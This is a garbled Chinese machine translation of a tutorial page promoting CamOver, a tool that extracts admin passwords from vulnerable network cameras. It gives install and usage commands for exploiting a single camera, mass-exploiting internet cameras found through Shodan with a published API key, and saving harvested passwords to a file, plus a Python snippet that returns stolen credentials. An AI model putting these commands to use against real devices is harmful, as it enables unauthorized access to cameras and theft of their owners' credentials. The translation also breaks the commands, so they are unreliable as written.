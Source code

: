 # CamOver:一个允许泄露网络摄像头管理员密码的摄像头利用工具

> 原文：<https://kalilinuxtutorials.com/camover/>

[![CamOver : A Camera Exploitation Tool That Allows To Disclosure Network Camera Admin Password](img/0331eaab4444b9aedc88e80dfbe83db6.png "CamOver : A Camera Exploitation Tool That Allows To Disclosure Network Camera Admin Password")](https://1.bp.blogspot.com/-SV9CITT4jps/YN7nwojfoPI/AAAAAAAAJyQ/HPGp7DbtJKQBLYi0tC4i5YbdytT0iFLMACLcBGAsYHQ/s728/CamOver%25281%2529.png)

CamOver 是一个允许泄露网络摄像头管理员密码的摄像头利用工具。

**特性**

*   利用最流行的相机型号中的漏洞，如`CCTV`、`GoAhead`和`Netwave`。
*   经过优化，可在启用线程的情况下同时利用列表中的多个摄像头。
*   简单的 CLI 和 API 用法。

**安装**

**pip3 安装 git+https://github . com/enty sec/CamOver**

**基本用法**

要使用它，只需在您的终端中键入`**camover**`。

**用法:CamOver[-h][-t][-o OUTPUT][-I INPUT][-a ADDRESS][–shod an shod an]
[–zoo meye zoo meye][-p PAGES]
CamOver 是一款允许泄露网络摄像头
管理员密码的摄像头利用工具。
可选参数:
-h，–help 显示此帮助消息并退出
-t，–线程使用线程进行最快的工作。
-o 输出，–输出输出
输出结果到文件。
-i 输入，–INPUT 输入
输入文件的地址。
-一个地址，–地址地址
单个地址。
–SHODAN SHODAN SHODAN API 密钥，用于通过互联网利用设备。
–用于通过互联网利用设备的 zoomeye ZOOMEYE ZoomEye API 密钥。
-p PAGES，–PAGES PAGES
你想从 ZoomEye 获取的页数。**

**例题**

**利用单个摄像头**

让我们黑了我的相机只是为了好玩。

192.168.99.100

**利用互联网上的摄像头**

让我们尝试使用 Shodan 搜索引擎来开发互联网上的摄像头，我们将使用它与 **`-t`** 进行快速开发。

**camover-t–shodan PSK qe1 gyxggecyz 2191 h2jos 9 qvgd**

**注意:**给定的 Shodan API key **( `PSKINdQe1GyxGgecYz2191H2JoS9qvgD` )** 是我的 PRO API key，你可以使用这个 key 或者你自己的，可以自由的免费使用我们所有的资源🙂

**利用输入文件中的摄像机**

让我们试着使用 **`-t`** 的开放式摄像机数据库进行快速开发。

**camover-t-I camera s . txt-o passwords . txt**

**注意:**会根据地址利用`**cameras.txt**`列表中的所有摄像机，并将获得的所有密码保存到 **`passwords.txt`。**

**API 使用**

CamOver 也有自己的 Python API，可以通过将 CamOver 导入到代码中来调用。

**从 camover 进口 CamOver**

**基本功能**

有所有的 CamOver 基本功能，可以用来开发指定的相机。

`**exploit(address)**`–利用给定地址的单个摄像头。

**例题**

**利用单个摄像头**

**从 camover 进口 CamOver
CamOver = CamOver()
creds = CamOver . exploit(' 192 . 168 . 99 . 100 ')
print(creds)**

[**Download**](https://github.com/EntySec/CamOver)